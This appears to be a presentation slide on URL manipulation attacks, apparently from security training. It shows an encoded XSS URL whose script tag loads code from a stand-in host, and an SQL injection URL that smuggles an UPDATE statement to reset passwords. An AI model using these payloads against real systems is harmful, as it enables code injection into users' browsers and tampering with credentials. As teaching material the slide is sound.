

# URL Manipulation Example
URL Attack as an XSS
http://target/getdata.php?data=%3cscript%20src=%22http%3a%2f%2fwww.badplace.com%2fnasty.js%22%3e%3c%2fscript%3e
<script src=”http://www.badplace.com/nasty.js”></script>

URL Attack as an SQL Injection
http://target/login.asp?userid=bob%27%3b%20update%20logintable%20set%20passwd%3d%270n3d%27%3b--%00
92